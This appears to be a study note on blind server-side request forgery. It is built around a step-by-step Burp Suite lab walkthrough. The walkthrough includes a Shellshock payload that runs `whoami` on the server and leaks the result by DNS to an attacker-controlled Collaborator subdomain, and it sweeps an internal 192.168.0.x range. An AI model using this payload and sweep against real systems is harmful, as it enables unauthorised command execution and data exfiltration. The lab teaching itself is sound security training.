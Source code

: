Simply using out-of-band techniques to identify blind SSRFs doesn't in itself provide a route to exploitability. Since you cannot view the response from the backend request the behavior can't be used to exploit what's inside the target system. However, it can still be used to probe for other vulnerabilities in the target system, for example:
- Blindly sweep the internal IP address space
- Send payloads designed to detect well-known vulnerabilities; wherein if the payloads employ blind out-of-band techniques, it can uncover a critical vulnerability on an unpatched server

Another way to exploit blind SSRF is to induce the application to connect to a server under the attacker's control, and return a malicious response to the HTTP client that makes the connection. If the attacker can exploit serious vulnerability in the server's HTTP implementation, it might lead to a remote code execution.
## Example
1. In [Burp Suite Professional](https://portswigger.net/burp/pro), install the "Collaborator Everywhere" extension from the BApp Store.
2. Add the domain of the lab to Burp Suite's [target scope](https://portswigger.net/burp/documentation/desktop/tools/target/scope), so that Collaborator Everywhere will target it.
3. Browse the site.
4. Observe that when you load a product page, it triggers an HTTP interaction with Burp Collaborator, via the Referer header.
5. Observe that the HTTP interaction contains your User-Agent string within the HTTP request.
6. Send the request to the product page to Burp Intruder.
7. Go to the [Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) tab and generate a unique Burp Collaborator payload. Place this into the following Shellshock payload:
    `() { :; }; /usr/bin/nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN`
8. Replace the User-Agent string in the Burp Intruder request with the Shellshock payload containing your Collaborator domain.
9. Click "Clear §", change the Referer header to `http://192.168.0.1:8080` then highlight the final octet of the IP address (the number `1`), click "Add §".
10. Switch to the Payloads tab, change the payload type to Numbers, and enter 1, 255, and 1 in the "From" and "To" and "Step" boxes respectively.
11. Click "Start attack".
12. When the attack is finished, go back to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again, since the server-side command is executed asynchronously. You should see a DNS interaction that was initiated by the back-end system that was hit by the successful blind [SSRF attack](https://portswigger.net/web-security/ssrf). The name of the OS user should appear within the DNS subdomain.
13. To complete the lab, enter the name of the OS user.

## Cracking the Lens: Targeting HTTP's Hidden Attack-Surface
![Cracking the Lens: Targeting HTTP's Hidden Attack-Surface](https://www.youtube.com/watch?v=zP4b3pw94s0)